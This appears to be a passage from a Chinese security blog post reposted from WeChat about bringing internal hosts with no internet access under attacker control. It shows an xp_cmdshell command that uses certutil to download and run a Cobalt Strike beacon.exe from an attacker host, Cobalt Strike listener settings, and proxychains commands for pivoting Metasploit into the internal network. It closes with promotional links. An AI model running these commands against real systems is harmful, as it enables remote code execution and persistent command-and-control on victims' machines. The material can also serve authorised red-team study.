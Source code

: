   *   * 

    
    
    EXEC master..xp_cmdshell 'certutil -urlcache -split -f http://192.168.186.3/beacon.exe C:\ProgramData\beacon.exe'EXEC master..xp_cmdshell 'C:\ProgramData\beacon.exe'

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123228.png)![]()  

 **CobaltStrike监听设置**

  * 单主机上线：`CobaltStrike->Listeners->Add->127.0.0.1:60020`；

  * 多主机上线：`CobaltStrike->Listeners->Add->192.168.186.3:60020`；

  *  **注：** 目标主机为双网卡时必须用不出网IP段的内网IP地址进行监听才能上线不出网主机；

  

 **上线至MSF的利用姿势**

Kali攻击机上编辑/etc/proxychains.conf文件，底部添加一条socks4代理：127.0.0.1:60000，添加完成后先执行以下几条命令来验证下是否已经与不出网IP段通了？

  *   *   *   * 

    
    
    root@kali:~# proxychains telnet 192.168.186.4 1433root@kali:~# proxychains curl http://192.168.186.4root@kali:~# proxychains nmap -sT -Pn 192.168.186.4[...SNIP...]

  

如果通了就再用proxychains来启动msfconsole，用不出网IP段的内网IP地址进行监听即可。原理大家都懂，就不实操截图了...。

  *   * 

    
    
    root@kali:~# proxychains msfconsole -q[...SNIP...]

  

* * *

  
关注公众号回复“9527”可免费获取一套HTB靶场文档和视频，“1120”安全参考等安全杂志PDF电子版，“1208”个人常用高效爆破字典，“0221”2020年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

* * *

 **推 荐 阅 读**

  
  
  
[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123229.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123230.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)[![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826123231.png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

